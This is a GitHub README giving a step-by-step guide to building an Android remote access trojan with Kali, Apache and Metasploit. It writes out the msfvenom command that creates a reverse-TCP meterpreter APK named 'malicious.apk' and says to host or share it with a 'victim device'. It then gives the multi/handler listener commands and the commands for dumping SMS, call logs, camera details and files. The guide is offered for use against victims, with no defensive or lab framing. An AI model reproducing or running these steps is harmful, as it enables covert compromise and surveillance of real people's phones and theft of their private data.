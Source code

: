 # RAT-for-android
A Guide for making you own RAT(Remote access tool) for android with the help of msfconsole.

# Requirment to create your own RAT.
1.Kali linux
2.metaspolit framework
3.Apache2

# Steps to create RAT(Remote access tool)

1. Ensure that your system is upto date.
   (sudo apt update && sudo apt upgrade -y)

2. Install apache2 in your system.
   (sudo apt install apache2)
![WhatsApp Image 2025-01-02 at 8 18 26 PM](https://github.com/user-attachments/assets/7a05e6a3-130c-4166-9722-b39d56ca3a5e)
![WhatsApp Image 2025-01-02 at 8 19 11 PM](https://github.com/user-attachments/assets/f3c586d5-d138-4236-b3ba-2fc5b7cc4c53)

3. After installing you need to enable and start apache2 server.
   (sudo systemctl start apache2),(sudo systemctl enable apache2)
   
  ![WhatsApp Image 2025-01-02 at 8 22 12 PM](https://github.com/user-attachments/assets/e79ab4ab-95fd-4036-a629-ad5aaf41b1b4) 
  ![WhatsApp Image 2025-01-02 at 8 23 06 PM](https://github.com/user-attachments/assets/22d2955e-c1dd-4f15-ac2b-5f4b0b65be02)

5. Verify that apache2 is running or not.
 (sudo systemctl status apache2)
![WhatsApp Image 2025-01-02 at 8 24 19 PM](https://github.com/user-attachments/assets/70dfab6d-b595-486b-abda-166a7b2b57af)
![WhatsApp Image 2025-01-02 at 8 24 39 PM](https://github.com/user-attachments/assets/559183fa-6e1f-4f59-9840-3e9f85f0ad6d)

6. If you have firewall enable in you system you need to add rule in firewall for apache2.
   (sudo ufw allow 'Apache Full')

7. You wil get you apache2 server folder at (/var/www/html/)

8. Now you have successfully created your apache2 server you can vist you index page of you server at
   (http//{your-ip}/index.html)

9. Next step is to create payload for you RAT apk.

10. We are using msfvenom for creating payload.
    (msfvenom -p android/meterpreter/reverse_tcp LHOST=<your-ip> LPORT=<port> R > malicious.apk).

    
   ![Screenshot 2025-01-02 191802](https://github.com/user-attachments/assets/3e9ed813-a821-4079-b78f-e03817f94de2)

12. LHOST: Your IP address (use ifconfig to find it).  
     LPORT: A port number for listening (e.g., 4444).  
     malicious.apk: The name of the APK file created.
![Screenshot 2025-01-02 191825](https://github.com/user-attachments/assets/26b29ecf-5f1e-451c-83f4-61132521c0ab)

13. After creating apk you can upload it to you server show that anyone with you link can download or you can share apk any way to victim device.

    (mv malicious.apk /var/www/html/) for moving apk to server.

14. Now open msfconsole to monitro the apk and perform task on it on victim device.
![Screenshot 2025-01-02 193021](https://github.com/user-attachments/assets/192ce1fd-543d-4fc8-add0-7d01b71a9550)
![Screenshot 2025-01-02 193046](https://github.com/user-attachments/assets/d072d315-4dfc-49c9-9d1e-21bdd957e387)

# Steps to connect to the paylod in victim device

sudo msfconsole  

use exploit/multi/handler

set payload android/meterpreter/reverse_tcp

set LHOST {your-ip}

set LPORT {port}

exploit

13. Hit enter to exploit make sure you have successfully install the payload to the victim device.
![Screenshot 2025-01-02 193214](https://github.com/user-attachments/assets/34c56c34-e7d3-4306-891c-24bbdea74026)

14. It will get connect to victim device now you can have access to it file manager,sms,calllogs,sysinfo,camer,etc.
![Screenshot 2025-01-02 193448](https://github.com/user-attachments/assets/82ba145d-a55d-4233-a6d7-54962bff0814)
![Screenshot 2025-01-02 193458](https://github.com/user-attachments/assets/942e9f88-17c3-4501-af78-e9713cbc193c)

15. once connection is successfull try using (dump_sms for sms ,dump_calllog for call logs ,webcam_list , sysinfo for system info, ls to list dir)
![Screenshot 2025-01-02 193517](https://github.com/user-attachments/assets/c42653cf-0695-4f88-8549-3041b24862b4)
![Screenshot 2025-01-02 193535](https://github.com/user-attachments/assets/babd95e8-5496-4bac-bb62-8ab251baf7e2)
# Sms output
![Screenshot 2025-01-02 204049](https://github.com/user-attachments/assets/b0c6d2cd-8ae0-4946-b9fc-f0a42fc0cdf2)
